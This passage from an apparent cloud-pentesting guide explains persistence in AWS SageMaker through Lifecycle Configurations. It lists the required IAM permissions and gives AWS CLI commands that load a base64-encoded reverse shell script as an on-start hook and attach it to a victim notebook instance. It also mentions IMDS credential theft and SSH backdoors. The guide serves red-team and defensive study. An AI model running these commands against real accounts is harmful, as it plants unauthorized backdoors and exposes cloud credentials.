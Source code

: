 # AWS - SageMaker Persistence

## Overview of Persistence Techniques

This section outlines methods for gaining persistence in SageMaker by abusing Lifecycle Configurations (LCCs), including reverse shells, cron jobs, credential theft via IMDS, and SSH backdoors. These scripts run with the instance’s IAM role and can persist across restarts. Most techniques require outbound network access, but usage of services on the AWS control plane can still allow success if the environment is in 'VPC-only" mode.

> [!TIP]
> Note: SageMaker notebook instances are essentially managed EC2 instances configured specifically for machine learning workloads.

## Required Permissions
* Notebook Instances:
```
sagemaker:CreateNotebookInstanceLifecycleConfig
sagemaker:UpdateNotebookInstanceLifecycleConfig
sagemaker:CreateNotebookInstance
sagemaker:UpdateNotebookInstance
```
* Studio Applications:
```
sagemaker:CreateStudioLifecycleConfig
sagemaker:UpdateStudioLifecycleConfig
sagemaker:UpdateUserProfile
sagemaker:UpdateSpace
sagemaker:UpdateDomain
```

## Set Lifecycle Configuration on Notebook Instances

### Example AWS CLI Commands:
```bash
# Create Lifecycle Configuration*

aws sagemaker create-notebook-instance-lifecycle-config \
--notebook-instance-lifecycle-config-name attacker-lcc \
--on-start Content=$(base64 -w0 reverse_shell.sh)


# Attach Lifecycle Configuration to Notebook Instance*

aws sagemaker update-notebook-instance \
--notebook-instance-name victim-instance \
--lifecycle-config-name attacker-lcc
```

## Set Lifecycle Configuration on SageMaker Studio
